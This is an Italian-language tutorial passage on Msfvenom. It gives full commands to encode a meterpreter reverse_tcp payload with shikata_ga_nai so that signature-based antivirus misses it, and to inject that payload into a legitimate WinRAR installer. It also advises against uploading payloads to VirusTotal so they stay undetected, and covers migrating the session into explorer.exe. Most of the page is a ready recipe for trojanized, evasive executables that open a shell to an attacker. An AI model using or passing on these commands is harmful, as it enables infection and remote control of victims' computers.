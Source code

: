 
## Encoding dei Payload

Gli **encoder** sono moduli di Msfvenom che permettono di **modificare il codice binario (shellcode)** di un payload per **alterarne la firma**. Questo può servire a eludere gli antivirus, specialmente quelli che usano il **rilevamento basato su firme**.
> Il **shellcode** è il nucleo del payload, una sequenza di istruzioni in linguaggio macchina che viene eseguita quando il payload è attivato. In un payload come `meterpreter`, il shellcode è responsabile dell’instaurazione della sessione con l’attaccante. <br> Codificando il shellcode con un encoder, ne cambiamo la forma binaria mantenendo inalterata la funzionalità.

Gli antivirus, infatti, memorizzano le firme note di file malevoli in un database: se un file coincide con una di queste firme, viene identificato come pericoloso. L’**encoding** serve quindi a **modificare il bytecode del payload**, mantenendone il comportamento ma cambiandone l’impronta digitale.

Per elencare tutti gli encoder disponibili:
```bash
msfvenom --list encoders
```

Ogni encoder è classificato con un rank (es. `excellent`, `good`, `normal`, `low`, `manual`) e include una breve descrizione.

Il più noto è:
- `x86/shikata_ga_nai` → un encoder polimorfico XOR che muta a ogni generazione, rendendo ogni payload leggermente diverso.

**Esempio di encoding con Msfvenom:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 5 -f exe > /tmp/payload_encoded.exe
```

- `-e` specifica l’encoder
- `-i` imposta il numero di iterazioni (più iterazioni → più variazioni nel bytecode)

> Si consiglia di **non caricare i payload su VirusTotal** o simili, poiché questi strumenti contribuiscono ad aggiornare i database degli antivirus, rendendo il tuo payload riconoscibile.

---

## Iniezione in File Legittimi

Puoi mascherare il payload dentro un programma reale (es. WinRAR):
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 10 -f exe -x /path/to/winrar_setup.exe > /tmp/winrar_modificato.exe
```

- `-x` → file legittimo in cui iniettare
- `-k` → mantiene il comportamento originale del file

> `-k` funziona solo in alcuni casi e non è sempre affidabile: dipende da come il programma legittimo è strutturato.

---

## Post-Exploitation: Migrate

Dopo aver stabilito una sessione `meterpreter`, è consigliabile usare:
```bash
run post/windows/manage/migrate
```

Questo modulo migra il processo in uno stabile (es. `explorer.exe`), evitando crash e rilevamento.

---

